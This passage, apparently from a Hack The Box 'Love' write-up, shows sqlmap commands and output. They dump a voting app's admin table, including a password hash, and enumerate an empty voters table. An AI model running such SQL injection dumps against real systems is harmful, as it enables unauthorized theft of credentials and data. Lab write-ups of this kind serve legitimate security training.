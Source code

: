    | password   | varchar(60)  |
    | photo      | varchar(150) |
    | username   | varchar(50)  |
    +------------+--------------+

  [root:/git/htb/love]# sqlmap -r req.txt --threads=10 -D votesystem -T admin -C username,password --dump
    [12:31:01] [INFO] retrieved: admin
    Database: votesystem
    Table: admin
    [1 entry]
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC |
    +----------+--------------------------------------------------------------+

Lets go for login credentials, targeting the voters table.
  [root:/git/htb/love]# sqlmap -r req.txt --threads=10 -D votesystem -T voters --columns
    Database: votesystem
    Table: voters
    [6 columns]
    +-----------+--------------+
    | Column    | Type         |
    +-----------+--------------+
    | firstname | varchar(30)  |
    | id        | int(11)      |
    | lastname  | varchar(30)  |
    | password  | varchar(60)  |
    | photo     | varchar(150) |
    | voters_id | varchar(15)  |
    +-----------+--------------+

  [root:/git/htb/love]# sqlmap -r req.txt --threads=10 -D votesystem -T voters -C voters_id,password --dump
    [12:49:47] [WARNING] table 'voters' in database 'votesystem' appears to be empty
    Database: votesystem
    Table: voters
    [0 entries]
    +-----------+----------+
    | voters_id | password |
    +-----------+----------+
    +-----------+----------+
